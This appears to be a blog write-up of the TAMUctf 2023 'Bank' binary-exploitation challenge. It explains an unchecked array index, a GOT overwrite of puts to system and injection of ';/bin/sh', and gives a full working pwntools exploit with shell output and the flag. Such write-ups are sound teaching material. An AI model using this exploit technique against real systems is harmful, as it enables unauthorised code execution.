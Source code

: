 ```yaml
---
title: "TAMUctf 2023"
date: 2023-05-01T13:26:08+10:00
draft: false
tags: ['pwn']
---
```

<!--more-->
# Bank {#bank}

We're given three files.
- bank (ELF 64-bit)
- bank.c
- libc.so.6

Looks like we're going to have to ret2libc at some point so lets see where that's going to happen. Below is the source from `bank.c`.
```c
#include <stdio.h>

long accounts[100];
char exit_msg[] = "Have a nice day!";

void deposit() {
    int index = 0;
    long amount = 0;
    puts("Enter the number (0-100) of the account you want to deposit in: ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%ld", &amount);
    accounts[index] += amount;
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    deposit();
    deposit();
    puts(exit_msg);
}
```
Okay, it's pretty short. First thing I notice is that the `deposit()` function gives us write capabilities with a bit of a catch. So take a look at these lines in particular.
```c
    puts("Enter the number (0-100) of the account you want to deposit in: ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%ld", &amount);
    accounts[index] += amount;
```
So we can give an arbitrary 'account number' and 'amount' which will be used to index and add to the array respectively. That means we can provide an integer offset to any address and add some amount to the value stored at that location.
Before we get to excited lets `checksec` the binaries we were given.
```zsh
└─$ checksec --file=bank       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               0               bank

└─$ checksec --file=libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    DSO             No RPATH   No RUNPATH   No Symbols        Yes   79              170             libc.so.6
```
The notable missing protections are `RELRO` and `PIE` on the `bank` binary. That means there's no address randomisation and we can freely overwrite GOT entries.
So the plan is straight forward from here.

1. Find the GOT entry that points to `puts` in libc (We know there's an entry for `puts` since the binary uses it and there's no PIE so we just have to check the binary for where that entry is)
2. Use `deposit()` to add whatever offset we need to get to a function like `system()`

The only issue now is that we need to pass a command to `system()` when it gets called. I think the best option would be to overwrite a string that `puts()` uses to include `;/bin/sh`. Luckily there's an exit message that gets defined in the `bank` binary and is called at the end of the program.
```c
#include <stdio.h>

long accounts[100];
char exit_msg[] = "Have a nice day!";

//...snip...

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    deposit();
    deposit();
    puts(exit_msg);
}
```
Sweet, so we'll use the first `deposit()` call to modify the `exit_msg` to include `;/bin/sh` and the second one to overwrite the GOT entry for `puts` to point to `system`.
We can script that using pwntools, as shown below.
```python
from pwn import *

io = remote("tamuctf.com", 443, ssl=True, sni="bank")
elf = ELF('./bank')
libc = ELF('./libc.so.6')

def puts_to_system():
    gotputs_off = (elf.got['puts']-elf.symbols['accounts'])//8 # Find the offset we need to index in the array based on the location of our 'accounts' array.
    log.success("Calculated offset " + str(hex(gotputs_off)) + ' : ' + str(hex(elf.symbols['accounts'])) + ' - ' + str(hex(elf.got['puts']))) # Log our calculations.
    io.sendline(bytes(str(gotputs_off),'ascii')) # Send the index
    io.sendline(bytes(str(libc.symbols['system']-libc.symbols['puts']),'ascii')) # Send the offset between puts and system in libc

def corrupt_exitmsg():
    exitmsg_addr = next(elf.search(b'Have a nice day!')) # Find the address of the exit message in the bank binary
    log.success("Exit message string found at " + str(hex(exitmsg_addr)))
    exitmsg_off = (exitmsg_addr-elf.symbols['accounts']+0x10)//8 # Calculate the index in the array that will land us at the exitmsg in memory, we add 0x10 to get to the end of the string. We overwrite the null byte at the end of the string.
    io.sendline(bytes(str(exitmsg_off),'ascii')) # Send the index
    io.sendline((str(u64(b';/bin/sh'.ljust(8,b'\x00'))))) # Send the ';/bin/sh' string as an integer with null bytes to terminate the string. Note that in memory there were null bytes after the string, so when we send our integer it is equivelent to just writing whatever we want.

corrupt_exitmsg() # Corrupt the message
puts_to_system() # Change puts GOT entry to point to system

io.interactive()
```
Running that, we get a shell and the flag.
```zsh
└─$ python3 solver-template.py      
[+] Opening connection to tamuctf.com on port 443: Done
[+] Calculated offset -0x10 : 0x403460 - 0x4033e0
[*] Switching to interactive mode
Enter the number (0-100) of the account you want to deposit in: 
Enter the amount you want to deposit: 
Enter the number (0-100) of the account you want to deposit in: 
Enter the amount you want to deposit: 
sh: 1: Have: not found
$ ls
bank
docker_entrypoint.sh
flag.txt
$ cat flag.txt
gigem{a_v3ry_h3fty_d3p0s1t}
```
> gigem{a_v3ry_h3fty_d3p0s1t}
